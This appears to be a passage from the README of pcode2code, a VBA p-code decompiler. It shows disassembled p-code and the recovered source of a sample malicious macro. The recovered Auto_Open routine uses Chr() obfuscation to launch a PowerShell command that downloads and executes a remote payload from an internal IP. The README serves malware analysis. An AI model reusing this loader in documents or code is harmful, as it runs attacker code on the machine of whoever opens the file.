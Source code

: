 ```
	ArgsLd Chr 0x0001
	Concat
	LitDI2 0x0072
	ArgsLd Chr 0x0001
	Concat
	LitDI2 0x0073
	ArgsLd Chr 0x0001
	Concat
	LitDI2 0x0068
	ArgsLd Chr 0x0001
	Concat
	LitDI2 0x0065
	ArgsLd Chr 0x0001
	Concat
	[ .... -> 252 more lines like this]
	LitDI2 0x0029
        ArgsLd Chr 0x0001
        Concat
        LitDI2 0x0029
        ArgsLd Chr 0x0001
        Concat
        ArgsCall Shell 0x0001
Line #4:
        EndSub
```

If you use pcode2code, the output will be the following:

```
stream : VBA/ThisDocument - 2809 bytes
########################################

Sub Auto_Open()
  Dim exec As String
  Dim testvar As String
  Shell Chr(112) & Chr(111) & Chr(119) & Chr(101) & Chr(114) & Chr(115) & Chr(104) & Chr(101) & Chr(108) & Chr(108) & Chr(46) & Chr(101) & Chr(120) & Chr(101) & Chr(32) & Chr(73) & Chr(69) & Chr(88) & Chr(32) & Chr(40) & Chr(40) & Chr(110) & Chr(101) & Chr(119) & Chr(45) & Chr(111) & Chr(98) & Chr(106) & Chr(101) & Chr(99) & Chr(116) & Chr(32) & Chr(110) & Chr(101) & Chr(116) & Chr(46) & Chr(119) & Chr(101) & Chr(98) & Chr(99) & Chr(108) & Chr(105) & Chr(101) & Chr(110) & Chr(116) & Chr(41) & Chr(46) & Chr(100) & Chr(111) & Chr(119) & Chr(110) & Chr(108) & Chr(111) & Chr(97) & Chr(100) & Chr(115) & Chr(116) & Chr(114) & Chr(105) & Chr(110) & Chr(103) & Chr(40) & Chr(39) & Chr(104) & Chr(116) & Chr(116) & Chr(112) & Chr(58) & Chr(47) & Chr(47) & Chr(49) & Chr(48) & Chr(46) & Chr(48) & Chr(46) & Chr(48) & Chr(46) & Chr(49) & Chr(51) & Chr(47) & Chr(112) & Chr(97) & Chr(121) & Chr(108) & Chr(111) & Chr(97) & Chr(100) & Chr(46) & Chr(116) & Chr(120) & Chr(116) & Chr(39) & Chr(41) & Chr(41)
End Sub
```



## Installation
